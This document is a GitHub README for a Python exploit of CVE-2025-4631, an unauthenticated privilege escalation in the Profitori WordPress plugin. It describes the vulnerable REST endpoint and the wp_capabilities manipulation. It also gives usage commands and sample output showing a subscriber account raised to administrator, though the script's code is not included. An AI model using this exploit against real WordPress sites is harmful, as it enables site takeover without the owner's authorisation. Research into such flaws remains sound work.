

## 🚨 CVE-2025-4631 - Profitori WordPress Plugin Privilege Escalation Exploit

### 📌 Vulnerability Summary
**Profitori Plugin (versions 2.0.6.0 to 2.1.1.3)** is vulnerable to **unauthenticated privilege escalation** due to a missing capability check in the `/wp-json/stocktend/v1/stocktend_object` endpoint. This allows remote attackers to escalate the privileges of existing users (or create new ones) by directly manipulating the `wp_capabilities` meta field.

- **CVE**: CVE-2025-4631
- **CVSS Score**: 9.8 (Critical)
- **Published**: May 30, 2025
- **Last Updated**: May 31, 2025

---

## 🛠️ What This Script Does
This Python exploit automates the privilege escalation process by:

1. ✅ Checking the plugin version via the `readme.txt` file.
2. 🚀 Exploiting the vulnerable REST API endpoint if a vulnerable version is detected.
3. 📡 Sending the payload to escalate a user’s privileges to Administrator.
4. 🧾 Printing formatted, detailed results including the modified user’s credentials.

If the version check fails, the exploit proceeds cautiously with a warning.

---

## 📸 Exploit Proof


---

## 💻 Usage
```bash
usage: CVE-2025-4631.py [-h] -u URL -id ID [--email EMAIL] [--name NAME] [--url_field URL_FIELD] [--verbose]
```

### Example:
```bash
python CVE-2025-4631.py -u http://nxploit.ddev.site -id 3
```

### Sample Output:
```
[📄] Checking plugin version at: http://nxploit.ddev.site/wp-content/plugins/profitori/readme.txt
[✅] Vulnerable version detected: 2.1.1.3
[🚀] Exploiting in 3 seconds...
[📡] Sending privilege escalation request to: http://nxploit.ddev.site/wp-json/stocktend/v1/stocktend_object
[🎯] Exploit completed successfully!

[🧾] Updated User Information:
--------------------------------------
🆔 User ID         : 3
👤 Username        : subscriber
📧 Email           : subscriber@example.com
🪪 Display Name    : Subscriber User
🔗 User URL        : 
🛡 Role Raw        : a:1:{s:13:"administrator";b:1;}

[👑] Exploit By : Nxploited (Khaled_alenazi)
🔗 GitHub       : https://github.com/Nxploited
📧 Email        : NxploitBot@gmal.com
```

---

## ⚙️ Script Arguments
| Flag               | Description                                      | Required |
|--------------------|--------------------------------------------------|----------|
| `-u`, `--url`       | 🌐 Base URL of the WordPress site               | ✅ Yes   |
| `-id`               | 🆔 ID of the user to escalate                   | ✅ Yes   |
| `--email`           | 📧 Fake email to display                        | ❌ No    |
| `--name`            | 👤 Display name                                 | ❌ No    |
| `--url_field`       | 🔗 User URL field                               | ❌ No    |
| `--verbose`         | 🔍 Print full JSON response                     | ❌ No    |

---

## 📂 Requirements
- Python 3.x
- `requests` library

Install via:
```bash
pip install requests
```

---

## ⚠️ Disclaimer
This tool is provided for **educational and authorized testing purposes only**. Any misuse of this exploit against systems you do not own or have explicit permission to test is **strictly prohibited**. The creator is not responsible for any damages or legal consequences arising from improper usage.

---

*BY: Nxploited ( Khaled_Alenazi )*

